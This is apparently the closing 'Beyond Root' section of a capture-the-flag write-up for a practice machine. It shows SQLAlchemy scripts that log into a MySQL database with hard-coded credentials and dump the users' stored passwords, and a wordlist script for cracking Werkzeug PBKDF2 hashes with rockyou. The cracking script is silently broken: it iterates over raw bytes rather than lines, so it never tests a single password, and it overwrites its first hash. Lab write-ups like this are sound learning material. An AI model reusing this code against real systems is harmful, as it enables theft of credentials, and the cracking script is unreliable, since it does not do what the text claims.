 # BEYOND ROOT

## SQL ALCHEMY

This machine had several rabbit holes. One of them was interacting with Python's SQL Alchemy. The following scripts allow for basic enumeration using SQL Alchemy.

Enumerate table names:

```python
from sqlalchemy import create_engine, inspect

engine = create_engine("mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA", echo=True)
insp = inspect(engine)
print(insp.get_table_names())
```

Basic query:

```python
from sqlalchemy import create_engine,text

engine = create_engine("mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA", echo=True)
conn = engine.connect()
query = text("select password from users")
result = conn.execute(query)
print([row[0] for row in result])
```

## WERKZEUG HASHES

Another rabbit hole from this machine was trying to crack Werkzeug hashes. These hashes have no mode available in `hashcat` or `john`. However, it has a Python library that can read and crack them incredibly fast.

Hash example: `pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f`

Here's one example of utilizing the library for cracking hashes.

```python
from werkzeug.security import check_password_hash

myhash = "pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f"
myhash = "pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d"

rockyou = open("/usr/share/wordlists/rockyou.txt","rb").read()
for pwd in rockyou:
	try:
		pwd = pwd.decode()
		pwd = pwd.rstrip()
		if check_password_hash(myhash, pwd):
			print(pwd)
			exit()
	except:
		continue
```
